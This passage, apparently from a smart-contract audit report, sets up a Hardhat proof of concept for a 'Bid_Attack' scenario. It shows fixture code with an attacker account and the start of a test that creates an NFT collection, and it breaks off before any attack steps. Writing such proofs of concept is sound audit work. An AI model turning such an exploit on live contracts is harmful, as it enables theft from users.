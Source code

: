```js
    owner: owner,
    addr1: addr1,
    addr2: addr2,
    addr3: addr3,
    attackerEOA: attackerEOA, // for POCs
  }

  return {
    signers,
    contracts,
  }
}

module.exports = fixturesDeployment
```

3. Add `POCs.test.js` to `hardhat/test`. Here is the hardhat `POCs.test.js` script to run the attack scenario in javascript (each step is highlighted in the comments and it will print all the balances to the console):

```js
  File: hardhat/test/POCs.test.js

const {
    loadFixture,
} = require("@nomicfoundation/hardhat-toolbox/network-helpers");
const { expect } = require("chai");
const { ethers } = require("hardhat");
const fixturesDeployment = require("../scripts/fixturesDeployment.js");
const { time } = require('@nomicfoundation/hardhat-network-helpers'); // for POCs

let signers;
let contracts;

describe("Proof of Concept", function () {
    before(async function () {
        ({ signers, contracts } = await loadFixture(fixturesDeployment));
    });

    context("Bid_Attack", () => {

        before("#dataWereAdded", async function () {
            // create collection_1
            await contracts.hhCore.createCollection(
                "Test Collection 1",
                "Artist 1",
                "For testing",
                "www.test.com",
                "CCO",
                "https://ipfs.io/ipfs/hash/",
                "",
                ["desc"]
            );

            // set collection_1 data
            await contracts.hhCore.setCollectionData(
                1, // _collectionID
                signers.addr1.address, // _collectionArtistAddress
                2, // _maxCollectionPurchases
                10000, // _collectionTotalSupply
                0 // _setFinalSupplyTimeAfterMint
            );

            // set collection_1 costs
```